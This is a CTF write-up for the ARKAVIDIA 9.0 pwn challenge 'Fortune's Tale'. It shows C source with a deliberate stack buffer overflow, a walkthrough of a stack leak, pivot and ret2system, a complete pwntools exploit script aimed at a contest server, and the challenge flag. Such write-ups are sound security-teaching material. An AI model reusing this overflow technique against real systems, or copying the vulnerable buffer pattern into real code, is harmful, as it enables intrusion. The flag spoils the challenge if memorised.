 ```yaml
---
title: "CTF ARKAVIDIA 9.0 Qual - Fortune's Tale [WRITE UP]"
tags:
    - Pwn
    - BOF
    - Stack Pivot
    - Ret2system
category: "CTF National"
date: "2025-03-16 10:04:20"
---
```


This is a National CTF Challenge, i only solve one but might as well make a write up for fun :)

# Pwn - Fortune's Tale

## Introduction 

![alt](../../../img/CTFNational/ARKAVIDIA_9.0/FortuneTale.png)

## Source Code

```c
#include <stdbool.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>


#define MAX_SIZE 300


void init()
{
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}


int main()
{
    init();
    bool end = false;
    while (!end)
    {
        int choice;
        printf("1. Take a fortune\n"
               "2. Share a story\n"
               "3. Exit\n"
               "> ");
        scanf("%d%*c", &choice);
        switch (choice)
        {
        case 1:
            system("fortune");
            break;
        case 2: {
            int size;
            printf("Size: ");
            scanf("%d%*c", &size);
            char buf[size % MAX_SIZE]; #VULN
            printf("Text: ");
            read(0, buf, size);
            write(1, buf, size);
        }
        break;
        case 3: {
            end = true;
        }
        break;
        default:
            printf("Invalid choice\n");
        }
    }
}
```

## Summary

Make `buf` size the same or bigger then `MAX_SIZE` to leak stack and make it buffer overflow. Than use stack leak with fill buffer null byte to fix pivoting stack return. 

## Solution

Given a statically linked binary chall using musl libc and all live protection with Partial Relro.

![alt](/img/CTFNational/ARKAVIDIA_9.0/Protection.png)

It can be seen that there are 3 options containing:
- The first option is to run the `system("fortune")` //Not Important
- The second option is to declare a variable with size % `MAX_SIZE`, then read as much size and write to stdout as much size as (just like regular print)
- The third option exits the menu to be used for RIP control

So in option 2 if you provide an input of `MAX_SIZE` which becomes 0, when reading as many as 300 becomes a buffer overflow. For the leak address, you can declare a variable size `MAX_SIZE` so that it becomes a `char buf[0]` and after that is the content of the stack address that can be used as a leak. Next, set the breakpoint after the exit option and analyze what was done.

![alt](/img/CTFNational/ARKAVIDIA_9.0/AfterExit.png)

It can be seen that when choosing the exit option, the instructions to be carried out
Set `eax = 0`
`esp - &[ebp-0xc]`
`pop ecx` (Important where to control the return later)
`pop ebx`
`pop esi`
`pop ebp`
`esp - &[ecx - 4]`
To operate an `eip`, a true `esp` is required. `esp` will change depending on the content of the first `ebp` and `ecx`. To make it easier, i padded until `pop ecx` and set:
`ebp - 0xc = 0`
`ecx - 4 = stack leak`
The padding offset `\x00` is at 44 for `pop ecx` and the rest I spam ret2system to get the shell because in the binary there is a `system` function and the `/bin/sh` string.

### Solve Script

```python
#!/usr/bin/env python3
from pwn import *
exe = './chall'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]
host, port = "20.195.43.216", 8001


pid = None


def gdbscript():
    global pid
    gdbscript = f'''
    init-pwndbg
    set sysroot /proc/{pid}/root
    break *main+377
    break *main+362
    c
    '''.format(**locals())
    return gdbscript


def initialize(argv=[]):
    global pid
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript())
    elif args.REMOTE:
        context.log_level = 'info'
        return remote(host, port, ssl=False)
    elif args.DOCKER:
        p = remote("localhost", 1337)
        time.sleep(1)
        pid = process(["pgrep", "-fx", "./chall"]).recvall().strip().decode()
        attach(int(pid), gdbscript=gdbscript(), sysroot=f"/proc/{pid}/root", exe='chall')
        return p
    else:
        return process([exe] + argv)


def exploit():
    global io
    io = initialize()
    with log.progress("Leak address"), context.silent:
        io.sendlineafter("> ", b"2")
        io.sendlineafter("Size: ", b"300")
        io.sendlineafter("Text: ", "")
        io.recv(1)
        leak = io.recvuntil("1. Take a fortune")
    for i in range(40):
        log.info("Leak %#d: %#x", i+1, u32(leak[i*4:(i+1)*4]))
    stack = u32(leak[34*4:35*4]) << 8
    elf.address = (u32(leak[17*4:18*4]) << 8) - 0x10f00
    log.info("Stack: %#x", stack)
    log.info("ELF: %#x", elf.address)
    with log.progress("BOF to win"), context.silent:
        io.sendlineafter("> ", b"2")
        io.sendlineafter("Size: ", b"300")
        rop = ROP(elf)
        rop.system(next(elf.search(b"/bin/sh\x00")))
        print(rop.dump())
        payload = rop.chain()
        io.sendlineafter("Text: ", b"\x00"*44 + p32(stack) + p32(0) + p32(0) + p32(0) + payload*10)
    io.sendlineafter("> ", b"3")
    io.sendline(b"cat flag.txt")
    io.interactive()


if __name__ == '__main__':
    exploit()
```

### Flag

`ARKAV{__pwn__no__akachan__}`